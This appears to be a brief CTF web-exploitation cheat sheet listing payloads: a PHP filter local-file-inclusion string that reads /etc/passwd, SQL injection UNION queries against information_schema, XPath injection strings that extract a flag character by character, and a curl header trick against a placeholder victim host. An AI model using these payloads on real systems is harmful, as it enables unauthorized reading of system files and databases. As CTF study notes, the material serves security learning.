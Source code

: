 Local File Inclution
-

* `?file=php://filter/convert.base64-encode/resource=/etc/passwd

SQLi
-

* `UNION`
	
```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

XPath Injection
-

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

Type juggling with data
-

* `Playing with header`
	
	* `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
	* [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

